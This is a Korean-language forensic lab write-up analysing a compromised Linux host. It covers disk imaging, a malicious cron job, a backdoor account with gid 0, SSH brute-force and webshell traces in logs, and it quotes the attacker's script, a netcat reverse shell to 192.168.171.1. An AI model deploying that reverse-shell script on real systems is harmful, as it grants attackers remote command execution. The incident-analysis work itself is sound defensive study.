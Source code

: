 ```yaml
---
layout : post
title : 침해사고분석 - Linux
---
```


### Linux Image Dump

> ex) dd if=/dev/sda of=/mnt/hgfs/LinuxImage/linux.dd

### 실습

>**Victim IP**
>
>192.168.171.188
>
>**Attacker IP**
>
>192.168.171.1, 192.168.171.146
>
><br>
>
>**crontab**
>
>/tmp/wow64.sh 쉘 스크립트 실행 등록
>
><br>
>
>**wow64.sh**
>
>#!/bin/bash
>
>mknod /tmp/backpipe p
>
>/bin/sh 0</tmp/backpipe | nc 192.168.171.1 5555 1>/tmp/backpipe
>
><br>
>
>**/etc/passwd**
>
>infosechack 계정 root도 아닌데 gid가 0
>
><br>
>
>**/var/log/auth.log**
>
>Nov 1 21:32:20 192.168.171.146
>
>ssh brute force attack
>
>Nov 1 21:41:02 192.168.171.1
>
>1. Windows SSH Client로 SSH 접속
>2. root로 로그인 성공
>3. infosechack useradd 됨
>4. 로그아웃 후 infosechack으로 다시 ssh 접속
>
><br>
>
>**/var/log/access.log**
>
>Nov 1 21:19:16 192.168.171.146
>
>w3af 사용(웹앱 공격 툴)
>
>/morningmall/m_login_ok.php
>
>hydra 사용(brute force ) 
>
><br>
>
>**/var/log/apache2/access.log**
>
>Nov 1 23:29:02 192.168.171.1
>
>c99_madnet.php 접근(php webshell)